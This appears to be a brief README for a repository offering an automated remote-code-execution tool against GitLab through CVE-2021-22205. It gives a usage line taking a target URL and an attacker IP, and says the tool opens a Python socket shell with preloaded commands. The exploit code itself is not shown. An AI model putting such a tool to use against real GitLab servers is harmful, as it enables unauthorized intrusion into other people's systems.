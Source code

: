 # Automated-Gitlab-RCE
Automated Gitlab RCE via CVE-2021-22205

*example.py GitlabURL AttackerIP*

##### Added shell via python socket and pre-loaded commands to pop an RCE.

###### Main payload used from https://github.com/Al1ex/CVE-2021-22205
